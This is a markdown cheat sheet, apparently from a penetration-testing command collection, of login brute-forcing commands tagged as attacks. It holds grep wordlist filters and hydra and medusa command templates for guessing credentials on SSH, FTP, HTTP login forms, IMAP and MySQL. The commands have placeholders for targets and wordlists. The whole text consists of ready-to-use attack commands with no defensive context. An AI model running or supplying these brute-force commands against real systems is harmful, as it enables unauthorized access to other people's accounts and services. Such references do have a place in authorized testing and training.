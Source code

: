 ## Login Brute Forcing - filter - lowercase
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
grep -E '[a-z]' <wlist>
```

## Login Brute Forcing - filter - numbers
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
grep -E '[0-9]' <wlist>
```

## Login Brute Forcing - hydra - multiple ssh
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
hydra -l <user> -p <passw> -M <targetsWlist> ssh
```

## Login Brute Forcing - hydra - hybrid attack
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
hydra -l <username> -x <minchar>:<maxchar>:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 <targetIP> <protocol>
```

## Login Brute Forcing - medusa - ftp
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -M ftp -h <target> -u <username> -P <passwdlst>
```

## Login Brute Forcing - medusa - HTTP
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -M http -h <target> -U <usernamelst> -P <passwdlst> -m DIR:/login.php -m FORM:<userparam>=^USER^&<passwdparam>=^PASS^
```

## Login Brute Forcing - medusa - IMAP
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -M imap -h <mail-example-com> -U <users-txt> -P <passwords-txt>
```

## Login Brute Forcing - medusa - MySQL
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -M mysql -h <target> -u <username> -P <passwords-txt>
```
